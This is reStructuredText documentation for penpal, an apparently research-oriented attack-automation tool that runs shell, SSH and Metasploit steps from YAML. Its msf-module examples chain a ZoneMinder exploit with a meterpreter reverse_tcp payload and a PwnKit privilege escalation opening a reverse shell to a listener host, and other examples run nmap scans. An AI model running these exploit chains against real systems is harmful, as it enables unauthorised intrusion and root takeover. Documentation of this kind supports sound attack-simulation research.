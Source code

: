 ========
commands
========

This setting holds a list of commands that are executed sequentially from
top to bottom.

Every command, regardless of the type has the following options:

.. confval:: exit_on_error

   If this option is true, penpal will stop the run if the command returns with a return code
   that is not zero.

   :type: bool
   :default: ``True``

.. confval:: error_if

   If this option is set, an error will be raised if the string was found in the output
   of the command.

   :type: str


.. confval:: error_if_not

   If this option is set, an error will be raised if the string was not found in the output
   of the command.

   :type: str


.. confval:: loop_if

   If this option is set, the command will be executed again if the string was found in the
   output of the command.

   :type: str


.. confval:: loop_if_not

   If this option is set, the command will be executed again if the string was not found in the
   output of the command.

   :type: str


.. confval:: loop_count

   This option controlls how often a command should be re-executed if loop_if ord loop_if_not is set.

   :type: int
   :default: ``3``

.. confval:: cmd

   This option stores the command that will be executed. This option might be implemented individually
   in each command-type.

   :type: str


shell
-----

This command executes local shell-commands.

.. confval:: cmd

   cmd stores the command-line that should be executed locally.

   :type: str


   .. code-block:: yaml

      ###
      msf_config:
        password: top-secret
        server: 10.18.3.86

      vars:
        $SERVER_ADDRESS: 192.42.0.254
        $NMAP: /usr/bin/nmap

      commands:
        - type: shell
          cmd: $NMAP $SERVER_ADDRESS

sleep
-----

This command sleeps a certain amount of time.

.. code-block:: yaml

   ###
   commands:
     - type: sleep
       seconds: 60


.. confval:: min_sec

   This option defines the minimum seconds to sleep. This
   is only relevant if option **random** is set to True

   :type: int
   :default: ``0``


.. confval:: seconds

   This options sets the seconds to sleep. If the option
   **random** is set to True, this option is the maximum time
   to sleep.

   :type: int
   :default: ``1``
   :required: True


.. confval:: random

  This option allows to randomize the seconds to wait. The minimum
  and maximum seconds for the range can be set by **min_sec** and
  **seconds**.


  :type: bool
  :default: ``False``


  The following example will take a random amount of seconds between 30 seconds
  and 60 seconds:

  .. code-block:: yaml

     ###
     commands:
       - type: sleep
         seconds: 60
         min_sec: 30


.. confval:: cmd

  This option is ignored

  :type: str
  :default: ``sleep``

ssh
---

Execute commands on a remote server via SSH.

.. note::

   This command caches all the settings so
   that they only need to be defined once.

.. code-block:: yaml

   vars:
     $SERVER_ADDRESS: 192.42.0.254
     $SSH_SERVER: 10.10.10.19

   commands:
     # creates new ssh-connection and session
     - type: ssh
       cmd: nmap $SERVER_ADDRESS
       hostname: 10.10.10.19
       username: aecid
       key_filename: "/home/alice/.ssh/id_rsa"
       creates_session: "attacker"

     # cached ssh-settings. creates new ssh-connection
     - type: ssh
       cmd: "echo $SERVER_ADDRESS"

     # reuses existing session "attacker"
     - type: ssh
       session: "attacker"
       cmd: "id"

.. confval:: hostname

   This option sets the hostname or ip-address of the
   remote ssh-server.

   :type: str

.. confval:: port

   Port to connect to on the remote host.

   :type: int
   :default: ``22``

.. confval:: username

   Specifies the user to log in as on the remote machine.

   :type: str

.. confval:: password

   Specifies the password to use. An alternative would be to use a key_file.

   :type: str

.. confval:: passphrase

   Use this passphrase to decrypt the key_file. This is only necessary if the
   keyfile is protected by a passphrase.

   :type: str

.. confval:: timeout

   The timeout to drop a connection attempt in seconds.

   :type: float

.. confval:: clear_cache

   Normally all settings for ssh-connections are cached. This allows to defined
   all settings in one command and all following commands can reuse these settings
   without set them in every single command. If a new connection with different
   settings should be configured, this setting allows to reset the cache to default
   values.

   :type: bool
   :default: ``False``

   .. note::

       This setting will not clear the session store.

.. confval:: creates_session

   A session name that identifies the session that is created when
   executing this command. This session-name can be used by using the
   option "session"

   :type: str

.. confval:: session

   Reuse an existing ssh-session. This setting works only if another
   ssh-command was executed with the command-option "creates_session"

   :type: str

.. confval:: jmp_hostname

   This option sets the hostname or ip-address of the
   remote jump server.

   :type: str

.. confval:: jmp_port

   Port to connect to on the jump-host.

   :type: int
   :default: ``22``

.. confval:: jmp_username

   Specifies the user to log in as on the jmp-host.

   :type: str
   :default: ``same as username``


.. _msf-module:

msf-module
----------

This command executes Metasploit-Modules via Metasploits RPC-Api.

.. note::

   To configure the connection to the msfrpc-server see :ref:`msf_config`

Some Metasploit-Modules return output. Like the Auxilary-Modules:

.. code-block:: yaml

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: msf-module
       cmd: auxiliary/scanner/portscan/tcp
       options:
         RHOSTS: 192.42.0.254

Most Exploit-Modules don't create output but instead they create
sessions(see :ref:`msf-session`)

.. code-block:: yaml

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: msf-module
        cmd: exploit/unix/webapp/zoneminder_snapshots
        creates_session: "foothold"
        options:
          RHOSTS: 192.42.0.254
        payload_options:
          LHOST: 192.42.2.253
        payload: cmd/unix/python/meterpreter/reverse_tcp

.. confval:: cmd

   This option stores the path to the metasploit-module.

   :type: str

   .. note::

     Please note that the path includes the module-type.


.. confval:: target

   This option sets the payload target for the metasploit-module.

   :type: int
   :default: ``0``

.. confval:: creates_session

   A session name that identifies the session that is created by
   the module. This session-name can be used by :ref:`msf-session`

   :type: str

.. confval:: session

   This option is set in exploit['SESSION']. Some modules(post-modules)
   need a session to be executed with.

   :type: str

.. confval:: payload

   Path to a payload for this module.

   :type: str

   The following example illustrates the use of sessions and payloads:

   .. code-block:: yaml

      commands:
        - type: msf-module
           cmd: exploit/unix/webapp/zoneminder_snapshots
           creates_session: "foothold"
           options:
             RHOSTS: 192.42.0.254
           payload_options:
             LHOST: 192.42.2.253
           payload: cmd/unix/python/meterpreter/reverse_tcp

         - type: msf-module
           cmd: exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
           session: "foothold"
           creates_session: "root"
           options:
             WRITABLE_DIR: "/tmp"
           payload_options:
             LHOST: 192.42.2.253
             LPORT: 4455
           payload: linux/x64/shell/reverse_tcp

.. confval:: options

   Dict(key/values) of module options, like RHOSTS:

   :type: Dict[str,str]

.. confval:: payload_options

   Dict(key/values) of payload options, like LHOST and LPORT:

   :type: Dict[str,str]


.. _msf-session:

msf-session
-----------

This command allowes to read and write commands to (Meterpreter)sessions that
have previously created by msf-modules(see :ref:`msf-module`).


.. note::

   To configure the connection to the msfrpc-server see :ref:`msf_config`

.. confval:: stdapi

   Load stdapi module in the Meterpreter-session.

   :type: bool
   :default: ``False``

.. confval:: write

   Execute a raw write-operation without reading the output.

   :type: bool
   :default: ``False``

.. confval:: read

   Execute a raw read-operation without a write-operation.

   :type: bool
   :default: ``False``

.. confval:: session

   Use this session for all operations.

   :type: str
   :required: True

.. confval:: end_str

   This string indicated the end of a read-operation.

   :type: str

regex
-----

This command parses variables using regular expressions. For more information
about regular expressions see `Python Regex  <https://docs.python.org/3/library/re.html>`_


.. confval:: mode

   Specifies the python regex-function. One of: ``search``, ``split`` or ``findall``.

   :type: str
   :default: ``findall``

.. confval:: input

   Parse the value of this variable.

   :type: str
   :default: ``RESULT_STDOUT``

.. confval:: output

   Defines where to store the results of the regular expression. This
   must be a list of key-value pairs("variable-name": "$MATCH"). The matches
   of the regular expressions are stored in temporary variables $MATCH. If the
   match is stored in a list or in a list of tuples the variablename will be
   numbered by the index. For examle: "$MATCH_0_0" for the first element in the
   first occurance.

   .. note::

       A dump containing all matches will be printed if penpal runs in debug-mode.

   :type: dict[str,str]
   :required: True

   The following example parses the portnumber from the output of the last command and stores it in variable "UNREALPORT":

   .. code-block:: yaml

      commands:
        - type: shell
          cmd: echo "6667/tcp open  irc UnrealIRCd"

        - type: regex
          cmd: (\d+).*UnrealIRCd
          output:
              UNREALPORT: "$MATCH_0"

        - type: debug
          cmd: "Port: $UNREALPORT"


   By using the mode "split", strings that are seperated by whitespaces can be tokenized:

   .. code-block:: yaml

      commands:
        - type: shell
          cmd: echo "6667/tcp open  irc UnrealIRCd"

        - type: regex
          cmd: "\ +"
          mode: split
          output:
              # {'MATCH_0': '6667/tcp', 'MATCH_1': 'open', 'MATCH_2': 'irc', 'MATCH_3': 'UnrealIRCd\n'}
              UNREALPORT: "$MATCH_0"

        - type: debug
          cmd: "Port: $UNREALPORT"

debug
-----

This command prints out strings and variables and is for debugging
purposes only.

   .. code-block:: yaml

      ###
      msf_config:
        password: top-secret
        server: 10.18.3.86

      vars:
        $SERVER_ADDRESS: 192.42.0.254
        $NMAP: /usr/bin/nmap

      commands:
        - type: debug
          cmd: "$NMAP $SERVER_ADDRESS"
          varstore: True


.. confval:: varstore

   Print out all variables that are stored in the VariableStore.

   :type: bool
   :default: ``False``
